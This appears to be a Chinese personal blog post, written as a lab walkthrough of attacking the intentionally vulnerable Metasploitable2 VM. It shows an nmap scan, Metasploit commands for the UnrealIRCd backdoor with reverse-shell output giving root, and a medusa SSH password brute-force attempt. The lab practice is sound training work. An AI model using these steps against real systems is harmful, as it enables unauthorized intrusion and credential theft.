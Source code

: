 ```yaml
---
title: 渗透之metasploitable使用
date: 2020-03-14 09:26:28
tags:
	- 渗透

---
```


1

从source forge下载metasploitable2的，还是官方渠道下载比较保险。

是VMware镜像。直接使用VMware打开就好了。

默认只有nat和host-only这2个网卡。

我的攻击机在其他网络里，所以添加一个桥接网卡。

需要自己手动ifconfig配置才行。

系统的时区是0时区的。所以跟我的当前时间差了12个小时。

我给配置的ip地址为172.16.2.50 。

直接浏览器打开这个地址，可以看到一个网页，显示了安装的web应用。

系统的username/password为：msfadmin/msfadmin。

现在在我的Ubuntu攻击机上，用nmap扫描一下这个靶机的端口情况。

```
sudo nmap -T 4  172.16.2.50
```

```
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
```



现在看看怎么根据扫描出来的端口来实施攻击。

在6667端口，运行的是unreal IRCD，这个是一个irc的守护进程。

这个版本的ircd，有个问题。

我们用下面的步骤进行攻击。

```
进入msfconsole
1、use exploit/unix/irc/unreal_ircd_3281_backdoor 
2、set rhosts 172.16.2.50
3、exploit
```

打印如下：

```

[*] Started reverse TCP double handler on 172.16.2.168:4444 
[*] 172.16.2.50:6667 - Connected to 172.16.2.50:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
[*] 172.16.2.50:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo eo8ZDrfKOhPpknpW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "eo8ZDrfKOhPpknpW\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.2.168:4444 -> 172.16.2.50:46480) at 2020-03-14 10:07:19 +0800
```

现在就已经是在靶机的命令行环境里了。

输入id，可以看到已经是root用户了。

```
id
uid=0(root) gid=0(root)
```

默认是在/etc/unreal目录下。

```
pwd
/etc/unreal
```

然后你可以在靶机里操作了。

上面说的是metasploit的攻击。

我们试一下其他工具的攻击。

看看medusa来探测靶机的弱口令的。

需要一个用户名字典和一个密码字典。

用这个里面的：https://github.com/Stardustsky/SaiDict

```
medusa -h 172.16.2.50 -U ./user.txt -P ./pass.txt -M ssh
```

但是报错了。

```
 Couldn't load "ssh" [/usr/lib/medusa/modules/ssh.mod: 
```

没有ssh模块的？

看了一下对应的目录下，有这些模块：

```
cvs.mod
http.mod
mssql.mod
nntp.mod
pop3.mod
rexec.mod
rsh.mod
smtp.mod
snmp.mod
telnet.mod
vnc.mod
wrapper.mod
ftp.mod
imap.mod
mysql.mod
pcanywhere.mod
postgres.mod
rlogin.mod
smbnt.mod
smtp-vrfy.mod
svn.mod
vmauthd.mod
web-form.mod
```

都是二进制的文件。

把这些模块挨个试一下。挺慢的。



web应用攻击





参考资料

1、Metasploitable 2 漏洞演练系统使用指南

https://blog.csdn.net/JackLiu16/article/details/79425390?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task